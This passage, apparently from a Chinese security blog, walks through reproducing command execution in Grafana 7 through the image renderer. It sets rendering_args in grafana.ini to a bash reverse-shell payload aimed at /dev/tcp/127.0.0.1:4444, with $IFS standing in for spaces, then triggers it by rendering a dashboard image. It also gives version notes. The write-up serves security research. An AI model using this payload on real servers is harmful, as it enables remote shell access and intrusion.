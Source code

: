 `sudo vim /etc/grafana/grafana.ini
rendering_args = --renderer-cmd-prefix=bash -c bash$IFS-l$IFS>$IFS/dev/tcp/127.0.0.1/4444$IFS0<&1$IFS2>&1` 

[![](https://storage.tttang.com/media/attachment/2022/11/29/a46ef87c-1f52-42f4-bc33-7d6f782990a6.png)
](https://storage.tttang.com/media/attachment/2022/11/29/a46ef87c-1f52-42f4-bc33-7d6f782990a6.png)

重启grafana服务

`sudo systemctl restart grafana-server` 

1.  监听`VMware-ubuntu20.04`的`4444`端口

[![](https://storage.tttang.com/media/attachment/2022/11/29/64e1f230-86e6-4dbb-8a9e-6c09df087358.png)
](https://storage.tttang.com/media/attachment/2022/11/29/64e1f230-86e6-4dbb-8a9e-6c09df087358.png)

1.  访问`http://{VMware-ubuntu20.04}:3000`，登录后，新建一个`dashboard`（默认的即可）

[![](https://storage.tttang.com/media/attachment/2022/11/29/f30b0209-2f81-43f2-9bd8-acf29d537414.png)
](https://storage.tttang.com/media/attachment/2022/11/29/f30b0209-2f81-43f2-9bd8-acf29d537414.png)

点击`share`

[![](https://storage.tttang.com/media/attachment/2022/11/29/a305e4bd-babd-40dc-8540-6fa9a5747dce.png)
](https://storage.tttang.com/media/attachment/2022/11/29/a305e4bd-babd-40dc-8540-6fa9a5747dce.png)

点击`direct link rendered image`

[![](https://storage.tttang.com/media/attachment/2022/11/29/de976b1e-25ed-4a61-944f-0b84c221fa9b.png)
](https://storage.tttang.com/media/attachment/2022/11/29/de976b1e-25ed-4a61-944f-0b84c221fa9b.png)

1.  查看`nc`监听窗口，执行命令成功

[![](https://storage.tttang.com/media/attachment/2022/11/29/e0764a01-9c52-439b-a353-6f82104edf7d.png)
](https://storage.tttang.com/media/attachment/2022/11/29/e0764a01-9c52-439b-a353-6f82104edf7d.png)

[注意](#toc__7)
-------------

*   经过测试，要使用`grafana 7`才能成功。如果使用`grafana 8`及其以上，配置了`rendering_args`参数后使用`/render`功能会立即报错无法加载`chrome`进程等（我tm找了好久的原因，一度放弃= =，以为是环境问题，结果是版本问题，但我没有进一步探寻为什么高版本不行了）；同时高版本下`rendering_args`参数值最后的特殊字符也会被`urlencode`（图丢了略
    
*   关于`grafana-image-renderer`的版本，因为中间我尝试使用了`docker grafana 7.5.4`配合`docker grafana-image-renderer latest`搭建环境，但是报错了，所以就选择了`3.0.0`版本。故本文也延用了该版本。
    

[参考文章](#toc__8)
---------------

*   [https://grafana.com/grafana/download?pg=get&platform=linux&plcmt=selfmanaged-box1-cta1](https://grafana.com/grafana/download?pg=get&platform=linux&plcmt=selfmanaged-box1-cta1)
*   [https://grafana.com/docs/grafana/v9.0/setup-grafana/installation/debian/#2-start-the-server](https://grafana.com/docs/grafana/v9.0/setup-grafana/installation/debian/#2-start-the-server)
